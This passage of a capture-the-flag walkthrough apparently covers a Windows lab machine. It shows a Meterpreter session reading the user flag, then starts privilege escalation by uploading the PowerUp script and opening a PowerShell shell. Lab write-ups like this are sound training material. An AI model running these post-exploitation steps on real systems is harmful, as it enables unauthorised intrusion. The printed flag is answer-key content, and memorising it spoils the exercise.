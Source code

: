 ### Post Exploit - Finding the User Flag

```bash
meterpreter > cd Desktop
meterpreter > dir
Listing: C:\\Users\\bill\\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 11:07:07 +0000  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 12:42:38 +0000  user.txt

meterpreter > cat user.txt
��b04763b6fcf51fcd7c13abc7db4fd365
```

---

# Privilege Escalation

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "_PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.

## Downloaded the PowerUp Tool

![image.png](attachment:919ccb68-bbfb-4d73-b1af-317809495b7e:image.png)

## Upload the tool to the Meterpreter Session

![image.png](attachment:ab6229c3-9de9-4a05-aadd-1a387981edba:image.png)

## Executing the Script in to the Meterpreter Session

1. Load the powershell module into the meterpreter session
2. Then Enter Powershell

```bash
load powershell

powershell_shell
```
